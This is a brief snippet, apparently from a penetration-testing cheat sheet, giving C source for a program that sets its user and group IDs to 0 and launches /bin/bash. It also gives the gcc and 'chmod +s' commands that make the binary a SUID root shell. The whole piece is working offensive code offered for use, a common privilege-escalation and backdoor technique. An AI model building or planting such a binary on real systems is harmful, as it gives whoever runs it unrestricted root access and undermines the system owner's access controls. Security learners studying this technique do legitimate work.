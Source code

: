 # General

### C code that spawns a root shell

To be ran as `sudo` or with `SUID` bit

_**shell.c**_

```c
#include <stdlib.h>
#include <unistd.h>

int main(){
 setgid(0); // set gid=0
 setuid(0); // set uid=0
 system("/bin/bash"); // spawns a shell as root
 return 0;
}
```

Compile with `gcc`, and relevant flags:

```bash
$ gcc shell.c -o shell
$ chmod +s shell
```
